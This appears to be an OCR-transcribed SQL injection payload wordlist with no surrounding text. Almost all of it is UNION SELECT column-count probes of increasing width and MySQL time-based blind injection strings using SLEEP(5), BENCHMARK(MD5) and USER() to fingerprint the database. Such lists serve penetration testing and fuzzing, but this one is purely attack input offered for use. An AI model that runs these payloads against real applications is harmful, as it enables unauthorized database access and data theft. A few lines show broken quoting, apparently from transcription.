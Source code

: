      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
     UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
     UNION SELECT @@VERSION,SLEEP(5),3
     UNION SELECT @@VERSION,SLEEP(5),USER(),4
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
     UNION SELECT @@VERSION,SLEEP(5),"'3
     UNION SELECT @@VERSION,SLEEP(5),"'3'"#
     UNION SELECT @@VERSION,SLEEP(5),USER(),4#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#